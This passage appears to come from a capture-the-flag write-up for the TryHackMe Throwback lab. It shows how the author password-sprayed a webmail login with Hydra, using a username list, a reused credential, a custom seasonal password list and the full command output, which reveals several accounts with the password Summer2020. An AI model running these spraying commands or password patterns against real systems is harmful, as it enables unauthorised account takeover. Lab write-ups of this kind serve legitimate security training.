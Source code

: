 ```
DaibaN
PeanutbutterM
PetersJ
DaviesJ
BlaireJ
GongoH
MurphyF
JeffersD
HorsemanB
```
before we perform password spraying attack, We should try to login with HumphreyW (`HumphreyW:securitycenter`) credential which we got from `FW01`. and BOOM it works!!!!. Now we can exclude him from our attack.

So now let use Hydra to perfrom the attack. this is the syntax for running hydra.
```
hydra -t 64 -L users.txt -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/url/to/login.php:<user_parameter>=^USER^&<pass_parameter>=^PASS^:<error message>" -v
```
we could try with rockyou.txt directly but I will try with 2 passwords that we already know, `securitycenter` and `WelcomeTBH1!`.

To get `user_parameter` and `pass_parameter`, we can either use *burp suite* to intercept our resquest or check the *source code*. Now let craft our hydra command.
```
hydra -L nickname.txt -p <password> 10.200.11.232 http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' -v -t 64
```

I tried with `securitycenter` and `WelcomeTBH1!`. It did't works... I was thinking to go for rockyou.txt but I gut said that I should check THM and They might mention something about a costumized wordlist, and yes they did. So I created wordlist
```console
bibo318@parrot:~/THM/throwback$ cat pass.txt 
Spring2020
Summer2020
Fall2020
Winter2020
Password123
TBHsec2020
Password2020
Management2020
```
now let run the attack
```console
bibo318@parrot:~/THM/throwback$ hydra -L nickname.txt -P pass.txt 10.200.11.232 http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' -v -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-03 06:36:31
[DATA] max 64 tasks per 1 server, overall 64 tasks, 96 login tries (l:12/p:8), ~2 tries per task
[DATA] attacking http-post-form://10.200.11.232:80/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.200.11.232/src/webmail.php
[80][http-post-form] host: 10.200.11.232   login: PeanutbutterM   password: Summer2020
[STATUS] attack finished for 10.200.11.232 (waiting for children to complete tests)
[VERBOSE] Page redirected to http://10.200.11.232/src/webmail.php
[VERBOSE] Page redirected to http://10.200.11.232/src/webmail.php
[VERBOSE] Page redirected to http://10.200.11.232/src/webmail.php
[80][http-post-form] host: 10.200.11.232   login: MurphyF   password: Summer2020
[80][http-post-form] host: 10.200.11.232   login: JeffersD   password: Summer2020
[80][http-post-form] host: 10.200.11.232   login: GongoH   password: Summer2020
```